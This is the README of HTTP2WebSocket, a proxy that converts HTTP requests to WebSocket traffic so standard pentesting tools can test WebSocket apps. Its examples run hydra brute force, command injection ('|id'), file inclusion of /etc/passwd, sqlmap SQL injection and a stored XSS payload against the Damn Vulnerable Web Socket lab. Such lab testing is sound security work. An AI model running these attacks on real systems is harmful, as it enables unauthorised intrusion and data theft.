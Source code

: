 HTTP2WebSocket
===============
**Latest release**: 1.0<br>
**License**: GNU GPL

HTTP2WebSocket is tool to translate HTTP/1.1 traffic into Web Sockets traffic.
It can be used in conjunction with standard pentesting tools like sqlmap, dirb, commix or others.<br>
It supports:
* SSL (wss://)
* Proxy
* WS connection initiation based on HTTP Host header

## Requirements
* request
* websocket-client

```bash
pip3 install request websocket-client
```

## Installation
No installation is required.

## Usage
- HTTP2WebSocket act as a proxy between HTTP and Web Socket connection. It expects HTTP incomming traffic and translates it to Web Socket application
- GET method is used to discover endpoinds
- POST method is used to sent data to a web socket application
- OPTIONS method to support CORS preflight request, necessary to XMLHttpRequest object

HTTP2WebSocket can work in two ways:
1. The default one is passing the exact HTTP body to the web socket
2. The second one is passing only the value of the parameter provided.<br>

HTTP2WebSocket can be binded to a specific application (-t parameter) or it can be provided in each HTTP request through Host header.

## Examples
Examples are based on Damn Vulnerable Web Socket virtual machine.<br>
Details on how to setup DVWS here: [DVWS](https://github.com/interference-security/DVWS)<br>
Docker image of DVWS: [DVWS docker image](https://github.com/tssoffsec/docker-dvwsocket)

### One WS app - full POST body
Run the listener on port 3333 and connect to dvws.local:8080 web socket app on every HTTP request:
```bash
python3 HTTP2WebSocket.py -l 3333 -t ws://dvws.local:8080
```

Brute force:
```bash
for i in 'abc' 'qwe' 'admin' 'asd' 'zxc'; do echo -n $i|base64; done > dict-passwords.b64
hydra -t 1 -L dict-passwords.b64 -P dict-passwords.b64 -s 3333 127.0.0.1 http-form-post /authenticate-user-prepared:'{"auth_user"\:"^USER^","auth_pass"\:"^PASS^"}':Incorrect
```

Command execution:
```bash
curl "http://127.0.0.1:3333/command-execution" -d '|id'
```

CSRF<br>
Once logged in open the provided [HTML template](csrf_tmp.html), then check the response
```
HTTP2WebSocket started listening on port: 3333
127.0.0.1 - - [17/May/2024 16:25:30] "OPTIONS /change-password HTTP/1.1" 200 -
127.0.0.1 - - [17/May/2024 16:25:31] "POST /change-password HTTP/1.1" 200 -
 |- RESPONSE --------> Authenticated session is required for changing password.

127.0.0.1 - - [17/May/2024 16:27:27] "OPTIONS /change-password HTTP/1.1" 200 -
127.0.0.1 - - [17/May/2024 16:27:28] "POST /change-password HTTP/1.1" 200 -
 |- RESPONSE --------> Password changed successfully.
```

File inclusion:
```bash
curl --data '/etc/passwd' 127.0.0.1:3333/file-inclusion
```

Error SQL injection:
```bash
sqlmap -u http://127.0.0.1:3333/authenticate-user --data '{"auth_user":"YWFhYWE=","auth_pass":"YWFh"}' --tamper=base64encode --banner
```

Blind SQL injection:
```bash
sqlmap -u http://127.0.0.1:3333/authenticate-user-blind --data '{"auth_user":"YWFhYWE=","auth_pass":"YWFh"}' --tamper=base64encode --banner
```

Reflected XSS:
```bash
python2 xsssniper.py -u http://127.0.0.1:3333/reflected-xss --post --data="whatever"
```

Stored XSS:
```bash
curl http://127.0.0.1:3333/post-comments --data '{"name":"zzz","comment":"<script>alert(1111)</script>"}'
curl http://127.0.0.1:3333/show-comments -X POST
```

Discovering endpoints:
```bash
dirb http://127.0.0.1:3333/ endpoints-wordlist.txt
```

Other stuff:
```bash
nikto -host http://127.0.0.1:3333/
```

### One WS app - POST body parameter value
Run the listener on port 4444 and connect to dvws.local:8080 web socket app on every HTTP request.<br>
It sends value of the HTTP POST body parameter *fuzz*. Some tools (E.g. commix) don't recognise plain body which is used by WS app.<br>
```bash
python3 HTTP2WebSocket.py -l 4444 -t ws://dvws.local:8080 -P fuzz
```

Command execution:
```bash
python2 commix.py --url "http://127.0.0.1:4444/command-execution" --data "fuzz=127.0.0.1" --skip-empty --technique=C --hostname
```

File inclusion :
```bash
python2 fimap.py -s -b --no-auto-detect -u "http://127.0.0.1:4444/file-inclusion" -P "fuzz=xxx"
```

### Multiple WS apps - full POST body
Run the listener on port 5555. Take Host header from each HTTP request and use it as a target WS application.<br>
*NOTE: Protocol type has to be provided in HTTP Host header (E.g. Host: wss://localhost:1234)*

```bash
python3 HTTP2WebSocket.py -l 5555
```

Brute force:
```bash
hydra -t 1 -L dict-passwords.b64 -P dict-passwords.b64 -s 5555 127.0.0.1 http-form-post /authenticate-user-prepared:'{"auth_user"\:"^USER^","auth_pass"\:"^PASS^"}':Incorrect:"H=Host: ws\://dvws.local\:8080"
```

Command execution:
```bash
curl "http://127.0.0.1:5555/command-execution" -d '|id' -H 'Host: ws://dvws.local:8080'
```

Discover endpoints:
```bash
dirb http://127.0.0.1:5555/ ~/endpoints-wordlist.txt -H Host:ws://dvws.local:8080
```

Other:
```bash
nikto -host http://127.0.0.1:5555/ -vhost ws://dvws.local:8080
```

### Multiple WS apps - POST body parameter value
Run the listener on port 6666. Take Host header from HTTP request and use it as a target WS application.<br>
In this example actual data which is passed to the web socket application is the value of the *fuzz* parameter.
```bash
python3 HTTP2WebSocket.py -l 6666 -P fuzz
```

Command execution:
```bash
python2 commix.py --url "http://127.0.0.1:6666/command-execution" --data "fuzz=127.0.0.1" --skip-empty --technique=C --hostname --host="ws://dvws.local:8080"
```

File inclusion:
```bash
curl --data '/etc/passwd' 127.0.0.1:6666/file-inclusion -H 'Host: ws://dvws.local:8080'
```

Error SQL injection:
```bash
sqlmap -u http://127.0.0.1:6666/authenticate-user --data '{"auth_user":"YWFhYWE=","auth_pass":"YWFh"}' --tamper=base64encode --banner --host="ws://dvws.local:8080"
```

Blind SQL injection:
```bash
sqlmap -u http://127.0.0.1:6666/authenticate-user-blind --data '{"auth_user":"YWFhYWE=","auth_pass":"YWFh"}' --tamper=base64encode --banner --host=ws://dvws.local:8080
```

### All options example
Single example of all the options of HTTP2WebSocket:<br>

In this example actual data which is passed to the web socket application is the value of the *fuzz* parameter.
```bash
python HTTP2WebSocket.py -l 7777 -t wss://dvws.local:8765 -P fuzz -v -k -p 127.0.0.1:8080
```

|Parameter|Description|
|---|---|
|*-l 7777*|Listen on port 7777/TCP|
|*-t wss://dvws.local:8765*|Bind to dvws.local:8765 WS application through SSL|
|*-P fuzz*|Extract the value of the POST body parameter named *fuzz* and pass it to WS application|
|*-v*|Verbose mode|
|*-k*|Ignore SSL warnings and errors|
|*-p 127.0.0.1:8080*|Send all traffic through jttp proxy: 127.0.0.1:8080|

Sending simple request:
```bash
curl http://127.0.0.1:7777/authenticate-user -v -d 'fuzz=dawid'
```
